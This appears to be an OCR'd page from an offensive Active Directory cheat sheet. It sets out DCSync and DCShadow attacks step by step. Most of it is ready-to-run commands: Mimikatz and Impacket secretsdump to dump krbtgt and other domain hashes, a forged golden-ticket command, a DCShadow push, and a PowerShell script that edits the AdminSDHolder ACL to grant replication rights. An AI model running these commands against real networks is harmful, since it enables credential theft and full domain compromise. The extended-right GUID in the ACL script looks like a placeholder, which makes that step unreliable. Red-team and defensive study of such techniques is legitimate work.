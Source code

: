 ### Tools & Commands  
#### Mimikatz DCSync  
```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:corp.local /user:krbtgt
```
**Expected Output**: List of user hashes.

#### Impacket secretsdump.py  
```bash
python3 secretsdump.py corp.local/administrator@dc01.corp.local
```
**Expected Output**: Domain user hashes.

#### Mimikatz DCShadow  
```powershell
mimikatz.exe
privilege::debug
kerberos::golden /user:corp\DCShadow1$ /domain:corp.local /sid:S-1-5-21-... /krbtgt:7c6a180b36896a0a8c02787eeafb0e4c /id:11223344 /groups:512 /ptt
lsadump::dcshadow /push
```
#### **Invoke-DCShadow** (PowerShell) – DCShadow
```powershell

    Import-Module .\DSInternals.psm1
    Invoke-DCShadow -DomainController dc1.lab.local -AddReplicaLink
  ```
    
### Step-by-Step Guide  

#### Scenario A: Have Replication Rights  
- Run DCSync with Mimikatz:  
  ```powershell
  mimikatz.exe 'lsadump::dcsync /domain:corp.local /user:krbtgt' 'exit'
  ```  
- **Expected Output**: All domain user hashes.

#### Scenario B: Exploit ACL on AdminSDHolder  
- Check ACL:  
  ```powershell
  $aclSDH = Get-Acl "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $aclSDH.Access | Where-Object { $_.ActiveDirectoryRights -match "WriteDacl" }
  ```  
- **If “ShadowGroup” has WriteDACL**:  
  ```powershell
  $path = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $acl = Get-Acl $path
  $rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\ShadowGroup","ExtendedRight","Allow","00000000-0000-0000-0000-000000000012")
  $acl.AddAccessRule($rule)
  Set-Acl -AclObject $acl $path
  ```
- Now members of `ShadowGroup` have replication rights. Perform DCSync.

